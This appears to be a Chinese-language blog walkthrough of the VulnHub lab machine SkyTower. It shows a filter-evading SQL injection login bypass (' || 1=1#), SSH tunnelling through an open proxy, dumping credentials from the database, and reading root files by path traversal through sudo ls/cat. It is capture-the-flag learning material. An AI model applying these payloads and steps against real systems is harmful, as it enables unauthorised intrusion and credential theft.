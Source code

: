 ```yaml
---
layout: post
title:  "SkyTower"
description: walkthrough
category: vulnhub
---
```

# SkyTower

![image-20200720020833766]({{ site.url }}/assets/SkyTower.assets/image-20200720020833766.png)

![image-20200720021033516]({{ site.url }}/assets/SkyTower.assets/image-20200720021033516.png)

![image-20200720021249255]({{ site.url }}/assets/SkyTower.assets/image-20200720021249255.png)

![image-20200720021306614]({{ site.url }}/assets/SkyTower.assets/image-20200720021306614.png)

![image-20200720022616200]({{ site.url }}/assets/SkyTower.assets/image-20200720022616200.png)

简单的登录框输入`'`,测试出了注入点

使用burpsuit尝试绕过登录，但是在处理过程中发现，一些符号和词语被过滤了

![image-20200720025731777]({{ site.url }}/assets/SkyTower.assets/image-20200720025731777.png)



![image-20200720030016698]({{ site.url }}/assets/SkyTower.assets/image-20200720030016698.png)

首先是`or`应该被去除了，然后是`=`和`--`也被去除了

这时我们可以使用`||`替换`or`注释符号则只使用`#`

但是没有办法替换掉`=`

最终尝试出的payload应为

`' || 1=1#`

成功绕过，得到ssh账户凭证

![image-20200720031236840]({{ site.url }}/assets/SkyTower.assets/image-20200720031236840.png)

```bash
Username: john
Password: hereisjohn
```



```bash
ssh john@192.168.43.93
```

但是我们在扫描是发现，ssh端口是被过滤掉的

![image-20200720031437222]({{ site.url }}/assets/SkyTower.assets/image-20200720031437222.png)

而3128端口提供给我们一个代理

使用代理进行ssh转发

```bash
proxytunnel -p 192.168.43.93:3128 -d 127.0.0.1:22 -a 2222
```

重新链接本地端口

```bash
ssh -p 2222 john@127.0.0.1
```

![image-20200720032646942]({{ site.url }}/assets/SkyTower.assets/image-20200720032646942.png)

成功登录，但是shell会立即断开

尝试使用`/bin/bash`作为参数

重新链接

```
ssh -p 2222 john@127.0.0.1 /bin/bash
```

![image-20200720033105977]({{ site.url }}/assets/SkyTower.assets/image-20200720033105977.png)

这样得到的shell并不完整，这通常应该是bashrc中做了一些设置

查看一下

![image-20200720034056125]({{ site.url }}/assets/SkyTower.assets/image-20200720034056125.png)

通常删除用户bashrc后会有系统重新有系统默认的/etc/bash.bashrc

我们备份一下并重新登录

![image-20200720034300639]({{ site.url }}/assets/SkyTower.assets/image-20200720034300639.png)

```bash
ssh -p 2222 john@127.0.0.1
```

在网页服务目录下的login.php页面直接发现数据库凭证

登录数据库

```bash
mysql -u root -p
```





![image-20200720040742438]({{ site.url }}/assets/SkyTower.assets/image-20200720040742438.png)

只有root，其他库

![image-20200720213103817]({{ site.url }}/assets/SkyTower.assets/image-20200720213103817.png)

```bash
sara:ihatethisjob
william:senseable  
```

不能su

![image-20200720215346782]({{ site.url }}/assets/SkyTower.assets/image-20200720215346782.png)

登录了一下网页，密码是一样的。是ssh凭证没问题。登录ssh

还是和之前的操作一样需要rm掉bashrc

ssh登录成功

![image-20200720223253848]({{ site.url }}/assets/SkyTower.assets/image-20200720223253848.png)

可以cat或者ls。我们可以利用`..`

```bash
sudo /bin/ls /accounts/../root
```

![image-20200720223434831]({{ site.url }}/assets/SkyTower.assets/image-20200720223434831.png)

```bash
sudo /bin/cat /accounts/../root/flag.txt
```

![image-20200720224947867]({{ site.url }}/assets/SkyTower.assets/image-20200720224947867.png)

![image-20200720225025791]({{ site.url }}/assets/SkyTower.assets/image-20200720225025791.png)